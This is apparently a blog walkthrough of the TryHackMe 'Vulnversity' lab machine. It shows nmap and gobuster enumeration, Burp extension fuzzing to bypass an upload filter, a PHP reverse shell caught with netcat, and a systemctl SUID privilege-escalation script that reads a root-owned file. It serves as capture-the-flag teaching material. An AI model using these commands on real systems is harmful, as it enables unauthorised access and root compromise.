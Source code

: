 ```yaml
---
date: 2020-04-30 11:50:55
layout: post
title: "Vulnversity Try Hack Me Walkthrough"
subtitle:
description: Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. Vulnversity stands for Vuln University (I Guess).
image: /assets/img/uploads/vulnversity/vulnversity.jpg
optimized_image: /assets/img/uploads/vulnversity/vulnversity.jpg
category: walkthrough
tags: tryhackme boot2root
author:
paginate: false
---
```


Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. This box covers some basics of enumeration, exploiting the file upload vulnerability and then exploiting SUID bits. Lets Begin!

### Enumerating and Initial Access

We begin our enumeration by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -oA nmap/vulnversity 10.10.160.174

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.160.174 
Host is up (0.26s latency).      
Not shown: 994 closed ports                                              
PORT     STATE SERVICE     VERSION                                                             
21/tcp   open  ftp         vsftpd 3.0.             
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey                                                                  
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA) 
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
```

We see an Apache webserver running on port 3333. Let's fire up our browser and see what we have there.

<center><br>
<img src="/assets/img/uploads/vulnversity/port3333.png">
</center>

Next, we will be running a gobuster scan searching for the directories.

```r
m1m3@kali:~$ gobuster dir -u http://10.10.160.174:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================      
Gobuster v3.0.1                                          
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) 
===============================================================                      
[+] Url:            http://10.10.160.174:3333 
[+] Threads:        10               
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt              
[+] Status codes:   200,204,301,302,307,401,403  
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

We find some directories. Opening the '/internal/' directory, provides us with the some upload functionality!

<center><br>
<img src="/assets/img/uploads/vulnversity/internal.png">
</center>

 The first thing that we need to check in upload options is the extension type. To fuzz the extensions we will use BurpSuite. It has a nice feature called intruder which can do the job in an automated fashion.

First we need to upload a file (doesn’t really matter which file) and capture the request with BurpSuite proxy. After that right click on the request and choose send to intruder. Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so: 

<center><br>
<img src="/assets/img/uploads/vulnversity/request.png">
</center>


Now add the extensions to the list in the Payload tab and disable the <i>payload encoding</i> option.

<center><br>
<img src="/assets/img/uploads/vulnversity/intruder.png">
</center>



As we can see .phtml returns 'Success'. This is the extension we will be using with our webshell.
<center><br>
<img src="/assets/img/uploads/vulnversity/attack.png">
</center>

I will we using the webshell from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php"> pentest monkey,</a> you can use any shell you like, change the IP and port in the shell and upload it to the server. After uploading, we can find it at /internal/uploads/.

```r
m1m3@kali:~$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.5.61] from (UNKNOWN) [10.10.160.174] 43684
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:15:00 up  2:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ 
```

An we managed to get into the server. Now we can read the user.txt!

```r
www-data@vulnuniversity:/$ cd /home/bill
cd /home/bill
www-data@vulnuniversity:/home/bill$ wc -c user.txt
wc -c user.txt
33 user.txt
www-data@vulnuniversity:/home/bill$ 
```

### Privilege Escalation
This task is a little bit challenging. For this we need to exploit the SUID bits. Let's first look for SUID bit set.

```r
www-data@vulnuniversity:/bin$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
...
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
...
```

Looking at the output of the command, we can see that systemctl had a suid bit active. Searching on the <a href="https://gtfobins.github.io/gtfobins/systemctl/">GTFO Bins,</a> I found that we can exploit systemctl for privilege escalation. Copy and execute the following script into /bin directory.

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

This will write the output /root/root.txt into the /tmp. If we see in the /tmp directory, we can see a file named output, which is our flag!

```r
www-data@vulnuniversity:/bin$ wc -c /tmp/output
wc -c /tmp/output
33 /tmp/output
www-data@vulnuniversity:/bin$ 
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Try Hack Me walkthroughs!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://swadeillustration.com">Swade.</a>